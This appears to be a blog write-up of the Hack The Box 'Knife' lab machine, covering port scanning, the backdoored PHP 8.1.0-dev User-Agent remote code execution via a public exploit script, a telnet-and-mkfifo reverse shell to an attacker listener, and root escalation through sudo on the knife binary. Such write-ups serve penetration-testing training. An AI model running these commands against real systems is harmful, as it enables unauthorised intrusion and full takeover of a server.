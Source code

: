 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell."
date: 2025-05-26
classes: wide
header:
  teaser: /img2/knife.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - PHP 8.1.0-dev - 'User-Agent' Remote Code Execution [RCE]
  - Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.242
```

![](/img2/Pasted%20image%2020250526145240.png)

- Whatweb 

```bash
whatweb http://10.10.10.242/
```

![](/img2/Pasted%20image%2020250526145404.png)

## Exploitation

- PHP 8.1.0-dev User Agent RCE

```bash
searchsploit php 8.1.0-dev
```

![](/img2/Pasted%20image%2020250526145645.png)

```bash
searchsploit -m php/webapps/49933.py
```

```bash
python3 49933.py
```

![](/img2/Pasted%20image%2020250526145735.png)

- Send reverse shell

```bash
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.16.7 9000 0<$TF | /bin/bash 1>$TF
```

```bash
nc -nlvp 9000
```

## Post-exploitation

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250526152256.png)

- Knife Sudoers

```bash
sudo knife exec -E 'exec "/bin/sh"'
```

![](/img2/Pasted%20image%2020250526152128.png)